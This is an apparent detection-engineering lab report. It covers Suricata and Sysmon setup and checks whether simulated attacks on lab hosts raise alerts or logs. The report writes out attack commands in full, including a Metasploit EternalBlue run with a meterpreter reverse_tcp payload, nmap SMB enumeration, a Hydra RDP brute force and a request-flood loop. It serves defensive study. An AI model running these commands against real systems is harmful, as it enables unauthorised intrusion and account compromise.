# Detection Report

**Sensors deployed:** Suricata IDS (Kali, 192.168.19.132) + Sysmon (Windows target)

**Monitored targets:** 192.168.19.129, 192.168.19.135, 192.168.60.128

**Analyst:** Ritesh Gupta

**Date:** 30 May – 2 June 2026

---

## 1. Suricata Installation & Service Verification

```
sudo apt update
sudo apt install suricata -y
sudo systemctl enable suricata
sudo systemctl start suricata
sudo systemctl status suricata
```

**Findings:**
- Suricata 8.0.5 installed successfully
- Service confirmed **active (running)**, PID 5752
- Running in `af-packet` mode against the live interface

**Screenshot:**



---

## 2. Suricata Configuration

```
sudo nano /etc/suricata/suricata.yaml
```

**Findings:**
- `HOME_NET` set to `192.168.60.0/24` to scope detection to the actual lab network rather than the default broad ranges
- `EXTERNAL_NET` correctly set to `!$HOME_NET` so traffic leaving the lab range is treated as external

**Why this matters:** an incorrectly scoped HOME_NET is one of the most common real-world Suricata misconfigurations — too broad and everything looks "internal" (missing external threats); too narrow and internal lateral movement gets miscategorized as external.

**Screenshot:**



---

## 3. Baseline Detection Test — ICMP

```
ping -c 4 8.8.8.8
sudo tail -f /var/log/suricata/fast.log
```

**Findings:**
- Custom rule `sid:1000001` ("ICMP Echo Request detected") fired correctly on outbound ping traffic to `8.8.8.8`
- Confirms the sensor sees traffic in both directions (request and reply logged separately)
- Also picked up background IPv6 ICMP traffic on the network, showing the rule is genuinely live rather than only reacting to the test ping

**Screenshot:**



---

## 4. Custom Rule — SMB Scan Detection

Wrote a custom rule targeting SMB scanning/connection attempts and tested it against real reconnaissance traffic:

```
nmap -p 445 --script smb-enum-shares 192.168.19.129
nmap -p 445 --script smb-os-discovery 192.168.19.129
sudo tail -f /var/log/suricata/fast.log
```

**Findings:**
- Custom rule `sid:1000004` ("Custom SMB Scan/Connection Attempt") fired **multiple times**, once per connection attempt made by each Nmap SMB script
- Confirms the rule correctly flags reconnaissance-stage SMB probing, not just successful exploitation — this is valuable because it gives defenders a chance to catch an attacker during recon, before exploitation even starts

**Screenshot:**



---

## 5. Attack Simulation — EternalBlue (Negative + Positive Result)

Ran two separate EternalBlue attempts against different hosts to test detection coverage under both outcomes.

### Attempt against 192.168.19.129 — target not vulnerable
```
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.19.129
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.19.132
run
```
**Result:** `The target is not vulnerable` — exploit completed with no session created.

**Screenshot:**



### Suricata alert fired regardless
```
sudo tail -n 5 /var/log/suricata/fast.log
```
**Finding:** despite the exploit itself failing, Suricata's **built-in ET ruleset** still fired:
```
[1:2023521:5] ET EXPLOIT EternalBlue MS17-010 SMBv1 Echo Response
```
against `192.168.19.129:445`.

**Key takeaway:** this is an important detection-engineering insight — **IDS signatures match traffic patterns, not outcomes**. Even a failed exploitation attempt generates the same wire-level SMB packets the rule is designed to catch, so the alert fires whether or not the exploit actually succeeds. A SOC analyst should treat this alert as high-priority regardless of whether the attacker ultimately gained a session.

**Screenshot:**



---

## 6. Attack Simulation — RDP Brute Force + Windows Event Correlation

```
hydra -l student -P passlist.txt rdp://192.168.19.129
```
**Result:** Account may be valid but not active for Remote Desktop — 0 valid passwords found, connection attempts logged.

**Screenshot:**



### Correlating with Windows Security Event Log
```
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} -MaxEvents 1
```
**Findings:**
- Event ID **4625** ("An account failed to log on") logged on the target
- Detailed log shows: Logon Type 3 (network logon), target account `guest` on `WIN-CLIENT`, failure reason **"Account currently disabled"**
- Source workstation correctly identified as `nmap` at `192.168.19.132` — the Kali attack box

**Why this matters:** correlating the Hydra attempt on the attacker side with the 4625 events on the defender side is exactly how a SOC analyst confirms an attack actually reached its target, even when the attack itself didn't succeed.

**Screenshots:**





---

## 7. Attack Simulation — HTTP Directory Brute Force

**Kali side (target web server):**
```
python3 -m http.server 8080
```

**Windows side (attacker simulation):**
```
1..100 | ForEach-Object { Invoke-WebRequest -Uri "http://192.168.19.132:8080/" }
```

**Findings:**
- Successfully generated 100 sequential HTTP requests against the Kali-hosted web server, simulating directory brute-forcing behavior
- Server responded `200 OK` with a directory listing each time, confirming the requests actually reached and were processed by the target
- This traffic pattern (many rapid requests from a single source in a short window) is exactly what an HTTP-based Suricata threshold rule is designed to catch

**Screenshots:**





---

## 8. Sysmon Deployment (Windows Endpoint Visibility)

```
Get-Service Sysmon64
```
**Finding:** Sysmon64 service confirmed **Running**.

**Screenshot:**



### Hunting for PowerShell Activity in Sysmon Logs
```
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |
  Where-Object {$_.Message -match "powershell.exe"} |
  Select-Object -First 5 | Format-List TimeCreated, Message
```
**Findings:**
- Captured both **Event ID 1 (Process Create)** and **Event ID 11 (File Create)** entries tied to `powershell.exe`
- Full command line, parent process (`explorer.exe`), user context (`Win-Client\student`), and file hashes (MD5/SHA256/IMPHASH) all logged
- A temp file was created at `AppData\Local\Temp\__PSScriptPolicyTest_...ps1` — this naming pattern is itself a signal worth flagging, since it's associated with PowerShell script execution policy testing and is sometimes seen in living-off-the-land activity

**Screenshot:**



---

## 9. Automated Sysmon Event Collector

```
Set-ExecutionPolicy -Scope Process Bypass
.\sysmon_collector.ps1 -Hours 1
```

**Findings:**
- Script collected **352 total Sysmon events** from the last hour
- Of those, **22 were PowerShell-related** — automatically filtered and flagged for review
- Output saved to a timestamped CSV (`sysmon_events_20260602_185141.csv`) for later analysis or SIEM ingestion

**Why this matters:** manually reading raw Sysmon logs doesn't scale — an automated collector that filters to PowerShell activity specifically demonstrates the kind of triage automation a SOC analyst builds to keep up with log volume.

**Screenshot:**



---

## Summary — Detection Coverage

| Attack Simulated | Detected? | Alert/Log Source |
|---|---|---|
| ICMP (ping) | ✅ Yes | Custom Suricata rule `sid:1000001` |
| SMB enumeration/reconnaissance | ✅ Yes | Custom Suricata rule `sid:1000004` |
| EternalBlue exploitation attempt | ✅ Yes (even on failure) | Built-in ET ruleset `sid:2023521` |
| RDP brute force | ✅ Yes | Windows Security Event ID 4625 |
| HTTP directory brute force | ⚠️ Partial | Requests confirmed reaching target; dedicated threshold rule not yet verified against this specific traffic |
| PowerShell activity | ✅ Yes | Sysmon Event ID 1 / 11 |

**Key finding:** the EternalBlue detection held even when the exploit itself failed — proof that signature-based IDS detects the attempt, not just the outcome. This is the single most important lesson from this detection engineering exercise: **absence of a successful breach does not mean absence of an attack, and detection coverage should be validated against attack attempts, not just successful compromises.**

**Recommended next steps:**
- Confirm the HTTP directory brute-force custom rule fires specifically (not just relying on server-side logs) by re-running with `sudo tail -f /var/log/suricata/fast.log | grep -i "directory"` during the test
- Tune SMB rule thresholds to reduce alert volume during legitimate admin activity while still catching rapid connection attempts
- Extend Sysmon collector to also flag `__PSScriptPolicyTest` temp file patterns specifically, given their association with script execution policy probing

